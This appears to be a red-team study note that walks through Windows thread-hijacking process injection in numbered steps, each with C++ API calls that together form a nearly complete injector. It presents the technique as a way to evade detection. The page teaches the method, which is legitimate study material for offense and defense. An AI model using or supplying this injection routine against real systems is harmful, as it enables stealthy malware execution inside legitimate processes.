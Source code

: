 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/images/abusing-process-components/"}
---
```


~ [[cards/red-team/Abusing Windows Internals\|Abusing Windows Internals]]
### Introduction
---
Thread hijacking is a technique used by attackers to inject code (shellcode) into an existing **thread** of a legitimate process, then **redirect** that thread to execute their **malicious code** instead.

It is much stealthier than creating a new thread such as `CreateRemoteThread` because you'r hijacking an existing thread, making it harder to detect.

A _thread_ is like a **worker** inside a program (restuarant) that performs a specific task in order to ensure the program (restaurant) runs smoothly.
## Steps
---
**Step 1: Open the Target Process**

```cpp
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
```

- Locate the **target** process by it's PID.
- Use `OpenProcess` to get a handle to the process with **full access** (`PROCESS_ALL_ACCESS`) so we can write to it and manipulate its memory/threads.

**Step 2: Allocate Memory in the Target Process**

```cpp
PVOID remoteBuffer = VirtualAllocEx(
    hProcess,
    NULL,
    sizeof shellcode,
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Reserves and commits memory within the **remote process**.

- The allocated memory will store the **malicious shellcode**, hence we use `sizeof shellcode`.

- `PAGE_EXECUTE_READWRITE` allows the code to be executed, read, and written.

**Step 3: Write Shellcode to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess,
    remoteBuffer,
    shellcode,
    sizeof shellcode,
    NULL
);
```

Inject the **shellcode** (malicious payload) into the **allocated memory** inside the target process.

**Step 4: Take a Snapshot of All Threads**

```cpp
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
```

- Takes a **snapshot of all threads** running on the system.
    
- Needed to identify which thread **belongs** to the target process.

**Step 5: Find a Thread from the Target Process**

```cpp
THREADENTRY32 threadEntry;
Thread32First(hSnapshot, &threadEntry);

while (Thread32Next(hSnapshot, &threadEntry)) {
    if (threadEntry.th32OwnerProcessID == processId) {
        // Found thread belonging to our target process 
        // The code inside this if condition is at step 6
    }
}
```

Loops through all threads and checks if any of them belong to the target process (`th32OwnerProcessID` == target PID).

**Step 6: Open the Target Thread**

```cpp
HANDLE hThread = OpenThread(
    THREAD_ALL_ACCESS,
    FALSE,
    threadEntry.th32ThreadID
);
```

- Opens the **target thread** found in the previous step.

- Grants **full control** over the thread (read, write, suspend, etc.).

**Step 7: Suspend the Target Thread**

```cpp
SuspendThread(hThread);
```

Freezes the thread so we can **safely manipulate** its execution context.

**Step 8: Get the Thread's Context**

```cpp
CONTEXT context;
context.ContextFlags = CONTEXT_FULL;

GetThreadContext(hThread, &context);
```

- Retrieves the **execution context** of the thread.
    
- This includes register values like the **instruction pointer (RIP)**.

**Step 9: Set RIP to Our Shellcode**

```cpp
context.Rip = (DWORD_PTR)remoteBuffer;
```

- **Modifies the Instruction Pointer (RIP)** to point to our **malicious shellcode**.
    
- RIP determines the next instruction the CPU will execute.

**Step 10: Apply the Modified Context**

```cpp
SetThreadContext(hThread, &context);
```

- **Writes back** the modified thread context.
    
- The thread will now execute the shellcode once resumed.

**Step : Resume Thread**

```cpp
ResumeThread(hThread);
```

- Resumes the previously suspended thread.
    
- Execution jumps to our shellcode in the remote process.

### Prerequisite in order to work
---
- **High privileges** especially `PROCESS_ALL_ACCESS` and `THREAD_ALL_ACCESS`
- Target process must allow memory allocation and thread manipulation (i.e., not protected by kernel drivers like anti-virus)
- Architecture match: injector must match target process — both x86 or both x64
